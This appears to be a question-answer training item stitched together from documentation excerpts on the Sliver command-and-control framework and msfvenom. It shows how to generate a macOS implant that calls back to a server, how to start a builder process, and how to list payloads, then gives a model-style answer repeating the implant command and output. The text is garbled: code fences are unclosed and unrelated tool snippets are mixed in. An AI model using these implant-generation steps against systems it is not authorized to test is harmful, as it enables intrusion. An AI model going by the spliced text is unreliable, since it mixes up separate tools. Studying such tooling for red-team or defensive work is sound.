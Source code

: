 Context:Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:  
#### Basic Example  
```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
#### Setup  
Any `sliver-server` binary can be started as a builder process using [operator configuration files from multiplayer-mode](/docs?name=Multi-player+Mode) from the server you want to connect the builder to, for example:  
```
./sliver-server builder -c operator-multiplayer.cfg
To generate working payloads, you should have a complete comprehension of how things work. `transports`, `launchers`, `listeners` and `payloads` terms have to be understood before starting.
To generate a payload, there are two flags that you must supply (-p and -f):  
* **The -p flag: Specifies what payload to generate**  
To see what payloads are available from Framework, you can do:  
```
./msfvenom -l payloads

 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 
```
 Your response: 
```
sliver > generate --http example.com --os mac
[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```
